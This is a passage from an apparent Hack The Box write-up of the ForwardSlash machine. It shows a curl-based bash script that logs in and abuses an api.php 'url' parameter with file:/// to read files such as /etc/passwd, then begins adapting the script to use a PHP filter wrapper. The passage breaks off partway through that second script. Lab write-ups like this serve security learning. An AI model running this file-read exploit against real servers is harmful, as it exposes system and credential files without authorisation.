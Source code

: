 OK. Long story short. I could register for a new account and that would get me a new PHPSESSID. Armed with that insight, I wrote a simple shell script that allows me to read files off the box remotely.

<div class="filename"><span>read.sh</span></div>

```shell
#!/bin/bash

HOST=backup.forwardslash.htb
USER=admin
PASS=password
FILE=$1
COOKIE=$(mktemp -u)

# login
curl -c $COOKIE \
     -s \
     -o /dev/null \
     -d "username=$USER&password=$PASS" \
     http://$HOST/login.php

# read
curl -b $COOKIE \
     -s \
     -d "url=file:///$FILE" \
     http://$HOST/api.php

# clean up
rm -f $COOKIE
```

Let's give it a shot by reading `/etc/passwd`.

{% include image.html image_alt="114eb9b0.png" image_src="/2b825485-6959-4b81-bef1-3f1f279b1b67/114eb9b0.png" %}

Sweet but what's next?

### Permission Denied; not that way ;)

Normally, the **docroot** of a virtual host is located in `/var/www` and in our case, the **docroot** of `backup.forwardslash.htb` is exactly that. Now, this is what happens when you try the lazy-ass way of reading files from the **docroot** of the virtual host.

```
# ./read.sh /var/www/backup.forwardslash.htb/api.php; echo
Permission Denied; not that way ;)
```

Let's switch it up with a PHP filter wrapper.

<div class="filename"><span>read.sh</span></div>

```shell
#!/bin/bash

HOST=backup.forwardslash.htb
USER=admin
PASS=password
FILE=$1
COOKIE=$(mktemp -u)

# login
curl -c $COOKIE \
     -s \
     -o /dev/null \
     -d "username=$USER&password=$PASS" \
     http://$HOST/login.php
```